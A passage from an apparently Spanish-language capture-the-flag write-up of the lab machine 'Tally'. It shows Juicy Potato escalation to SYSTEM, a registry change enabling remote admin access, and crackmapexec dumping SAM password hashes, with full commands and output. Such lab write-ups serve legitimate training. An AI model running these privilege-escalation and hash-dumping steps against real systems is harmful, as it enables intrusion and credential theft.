 ```bash
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Temp\Privesc>
```

Lo podemos validar con `crackmapexec`:

```bash
❯ crackmapexec smb 10.10.10.59 -u 'kamiyo' -p 'k4miyo123!'
SMB         10.10.10.59     445    TALLY            [*] Windows Server 2016 Standard 14393 x64 (name:TALLY) (domain:TALLY) (signing:False) (SMBv1:True)
SMB         10.10.10.59     445    TALLY            [+] TALLY\kamiyo:k4miyo123!
```

Vemos que no tenemos un `Pwn3d!`, así que vamos a retocar un registro del sistema.

```bash
C:\Windows\Temp\Privesc> JP.exe -t * -p C:\Windows\System32\cmd.exe -l 4444 -a "/c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Temp\Privesc>
```

```bash
❯ crackmapexec smb 10.10.10.59 -u 'kamiyo' -p 'k4miyo123!'
SMB         10.10.10.59     445    TALLY            [*] Windows Server 2016 Standard 14393 x64 (name:TALLY) (domain:TALLY) (signing:False) (SMBv1:True)
SMB         10.10.10.59     445    TALLY            [+] TALLY\kamiyo:k4miyo123! (Pwn3d!)
```

Ya tenemos un `Pwn3d!`, así que podriamos tratar de ver los hashes de los usuarios, en concreto del administrador:

```bash
❯ crackmapexec smb 10.10.10.59 -u 'kamiyo' -p 'k4miyo123!' --sam
SMB         10.10.10.59     445    TALLY            [*] Windows Server 2016 Standard 14393 x64 (name:TALLY) (domain:TALLY) (signing:False) (SMBv1:True)
SMB         10.10.10.59     445    TALLY            [+] TALLY\kamiyo:k4miyo123! (Pwn3d!)
SMB         10.10.10.59     445    TALLY            [+] Dumping SAM hashes
SMB         10.10.10.59     445    TALLY            Administrator:500:aad3b435b51404eeaad3b435b51404ee:d904afc137554b20156f689f1b19c2b2:::
SMB         10.10.10.59     445    TALLY            Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.59     445    TALLY            DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
^CKeyboardInterrupt
2021-11-19T19:45:05Z
```
